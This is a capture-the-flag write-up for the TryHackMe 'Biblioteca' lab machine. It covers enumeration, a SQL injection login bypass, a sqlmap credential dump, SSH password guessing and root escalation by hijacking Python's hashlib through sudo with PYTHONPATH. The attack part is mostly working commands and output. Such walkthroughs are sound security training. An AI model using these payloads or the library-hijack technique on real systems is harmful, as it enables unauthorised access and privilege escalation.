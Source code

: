 ```yaml
---
title: TryHackMe - Biblioteca
author: 0
date: 2023-03-31 17:00:00 +0800
categories: [thm, machine]
tags: [sql-injection, credential-reuse, sudo-l, python, library-hijacking]
render_with_liquid: false
---
```

> Shhh. Be very very quiet, no shouting inside the biblioteca.

> Hit 'em with the classics.

This machine starts off with a website containing a login screen.

### Enumeration
```bash
$ nmap -sC -sV  -A  -oN nmap_result 10.10.66.77
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 000bf9bf1d49a6c3fa9c5e08d16d8202 (RSA)
|   256 a10c8e5df07fa532b2eb2f7abfedbf3d (ECDSA)
|_  256 9eefc90afce99eede32db130b65fd40b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap result shows the webserver running on port 8000. When we connect to this port, we can see a login screen. Thinking about the introduction "Hit 'em with the classics.", hints that this is could be an authentication bypass through SQL injection.

### Foothold
 
By using `username=username&password=' or '1'='1` we can bypass the authentication form.

When logged, you only get an index screen that greets a user called "smokey".
We can dump the database by using sqlmap
```bash
$ sqlmap -r request  --dump
Database: website
Table: users
[2 entries]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
| 2  | test@hotmail.com  | test           | test     |
+----+-------------------+----------------+----------+
```

We can use these credential to ssh into the server. This account is very restricted but upon viewing the `/home/` dir we notice there is another user called "hazel". After some trial and error we managed to get access into the "hazel" account by bruteforcing as the account has the password "hazel".

### Privelege Escalation

Both `/home/hazel/user.txt` and `/root/root.txt` flags require root access.
By running `sudo -l`, we can see that hazel can run `sudo /usr/bin/python3 /home/hazel/hasher.py` without needing the root password.
```bash
hazel@biblioteca:~$ sudo -l
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

We can see the `hasher.py` script imports the `hashlib` library. We can perform privilege escalation via "Python Library Hijacking"
```bash
hazel@biblioteca:~$ cat hasher.py 
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We can run `python3 -c 'import sys; print("\n".join(sys.path))'` to see the order of paths that searches in for its libraries. 
```bash
hazel@biblioteca:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

But this is not important to us as we can just force the `PYTHONPATH` to be where we save our modified version of the `hashlib.py` library.

We move to the `/tmp` dir as we don't have write permissions in our home directory. We create our version of the `hashlib.py` library that will be executed as sudo and calls `/bin/bash`. After running the script with `PYTHONPATH=/tmp` we managed to get root.

```bash
hazel@biblioteca:~$ cd /tmp
hazel@biblioteca:/tmp$ vi hashlib.py
hazel@biblioteca:/tmp$ hashlib.py 
import os

os.system('/bin/bash')
hazel@biblioteca:/tmp$ sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
root@biblioteca:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@biblioteca:/tmp# whoami
root
root@biblioteca:/tmp# cat /root/root.txt
THM{**REDACTED**}
root@biblioteca:/tmp# cat /home/hazel/user.txt
THM{**REDACTED**}
root@biblioteca:/tmp# 
```
